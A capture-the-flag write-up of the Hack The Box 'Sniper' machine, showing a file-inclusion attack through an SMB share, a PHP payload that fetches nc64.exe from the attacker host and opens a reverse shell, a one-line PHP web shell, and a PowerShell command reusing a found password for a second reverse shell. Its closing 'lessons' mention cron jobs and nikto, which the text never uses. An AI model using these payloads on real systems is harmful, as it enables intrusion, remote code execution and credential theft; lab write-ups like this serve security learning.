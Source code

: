 ```yaml
---
title: "Sniper"
date: 2023-06-24T23:52:47+02:00
tags: ["web","windows","smb","LFI"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Sniper.png
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: ""
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Room Information

- Room name: Sniper
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Sniper

![Untitled](/HTB/Sniper.png)

## Tools Used

- nmap
- gobuster
- whatweb
- smbserver.py
- nc
- python3 -m http.server

## Port Scanning

![Untitled](/HTB/escaneo-sniper.png)

In the port scan we can see that there are multiple ports open, like 80 (web server), 445 (Samba) ...

## Enumeration

As always first thing i'm going to do is:

```bash
whatweb 10.10.10.151
```
![/Untitled](/HTB/whatweb-sniper.png)

This results show me that the JQuery version is relatively outdated, and the machine is Windows.

So let's find something on the web:
 - First thing as always do ctrl+shift+u to see the source code of the page (nothing relevant)

Soon I realized this error that had the page:

![Untitled](/HTB/php-error-sniper.png)

I started trying common Windows files to test if it is a Local File Inclusion (LFI) vulnerability. 
However, this wouldn’t get me far since I can only view files and not execute any commands or view 
directories structure and contents. At most, I could try to brute-force in a search for other files.
I need to find a way to achieve code execution on the machine.

Here I leave the commands I used to test the error until I realized that I was indeed facing a vulnerability:

```bash
http://10.10.10.151/blog/?lang=test
http://10.10.10.151/blog/?lang=\Windows\System32\Drivers\etc\hosts
http://10.10.10.151/blog/?lang=\inetpub\wwwroot\index.php -> with the intention that I return the php code of the page
http://10.10.10.151/blog/?lang=php://filter/convert.base64-encode/resource=\inetpub\wwwroot\index.php -> with the intention 
that we do not interpret the PHP code
```
Now instead of try to introduce a local element of the machine, I'm going to try to introduce a extern element of my
fisical sistem:
	
 - The first attempt was to open a web server with `python3 -m http.server 80` and then modify the url of the machine 
   like this `http://10.10.10.151/blog/?lang=http://10.10.14.5/nmap`, to try to point to my address and see 
   if I received any requests. Nothing well.
	
 - The second attempt was to create a server with SMB  with `smbserver.py smbFolder $(pwd) -smb2support` to share the 
   smbfolder folder and modify the url as follows `http://10.10.10.151/blog/?lang=//10.10.14.5/smbFolder/test`. 
   We have connection !!!
   
   ![Untitled](/HTB/smbserver-sniper.png) 
  
   what should happen is that we would have to see the NTLM hash of version 2, but in this case it does not come out, 
   so maybe we are having a problem with the service we are offering, and we are also supporting version 2 of smb. 

 - The third attempt was to use the same command on our system `smbserver.py smbFolder $(pwd) -smb2support`, but in
   this case I put this files {escaneo, nc64.exe, exploit.php } inside the directory we were sharing via smb with the victim machine.
   
   I personaly create a php code that which downloads the payload.php to a temporary directory that we create on 
   the victim machine, and then executes it. Before modifying the url of the web page so that it 
   points `http://10.10.10.151/blog/?lang=\10.10.14.9.9\smbFolder\payload.php` to our shared smb server, we have 
   to raise the server on port 8000 in our kali with `python3 -m http.server` and listen on port 4444 to receive
   the reverse shell with `nc -nlvp 443`, and ready!

   The content of payload.php is:
	
	```php
	<?php
        function uploadFile($file){
                $url = "http://10.10.14.9:8000/" . $file;
                $file_name = "C:\\temp\\" . $file;
                if(file_put_contents($file_name, file_get_contents($url))){
                        echo "File download successfully";
                } else{
                        print($file_name);
                        echo "File downloading failed";
                }
        }

        function makeTempDir(){
                system("mkdir C:\\temp");
        }


        function reverseShell($shell){
                system("C:\\temp\\nc64.exe 10.10.14.9 4444 -e " . $shell);
        }

        $file = "nc64.exe";
        $shell = "powershell";

        makeTempDir();
        uploadFile("nc64.exe");
        reverseShell($shell);

	?>

	```

   This is more or less the set:

   ![Untitled](/HTB/previo-sniper.png)

   Then, the machine pawned jejeje
	
   ![Untitled](/HTB/reverseShell-sniper.png)



 - Other posible way is instead using payload.php is using this php code:
	
	```php
	<?php
		system($_REQUEST['cmd'])
	?>
	```
	
   Which allows us to use the url as if it were cmd:

   ![Untitled](/HTB/otraForma-sniper.png)


## Escalation of privileges

The first I do is `whoami` to kwnow what user I'm using. Then I search for any interesting document
like a *.db where I found a password `36mEAhz...`  and a user called Sniper.

![Untitled](/HTB/psw-sniper.png)

Then I use this command -> `net users` to know how many users there are in the Sniper machine and his names.

After thatI realized that we can use powershell and declare some variables like credentials, password,
and user, to use a Invoke-Command on user Sniper/chris and send a revershe sell to our kali.

```bash
$user = "Sniper\chris"
$password = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $password)
Invoke-Command -Credential $cred -ComputerName Sniper -ScriptBlock { \\10.10.14.9\smbFolder\nc64.exe 10.10.14.9 443 -e cmd }
```
In me Kali I'm listenning the 443 port using -> `nc -nlvp 443`


Before that we have the user **chris**, and the Flag !!!


## Leason Learned

- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.

**Thank you for reading, and happy hacking! 😄**
